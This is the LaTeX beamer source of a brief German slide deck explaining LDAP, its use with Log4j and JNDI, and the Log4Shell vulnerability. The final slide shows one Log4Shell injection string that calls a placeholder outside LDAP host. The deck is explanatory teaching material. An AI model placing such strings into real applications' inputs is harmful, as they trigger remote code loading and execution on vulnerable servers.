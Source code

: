 \documentclass{beamer}
\begin{document}
\subsection{Ldap}
\begin{frame}{LDAP}
$\Rightarrow$ 'Lightweight Directory Access Protocol'
 \begin{itemize}
  \item Protokoll für Nutzwerverwaltung\\
  - 'Darf sich dieser Nutzer einloggen?'\\
  - 'War dieser Nutzer schonmal hier?'
  \item Verwendung in Kombination mit Log4j und jndi\\
  $\Rightarrow$ 'Logge die Anzahl der Logins dieses Nutzters'
  \item Läuft meist als externe Server-Instanz
 \end{itemize}

\end{frame}
\section{Log4Shell}
\begin{frame}{Log4Shell}
\${jndi:ldap://somedomain.com/powned}
\end{frame}
\end{document}
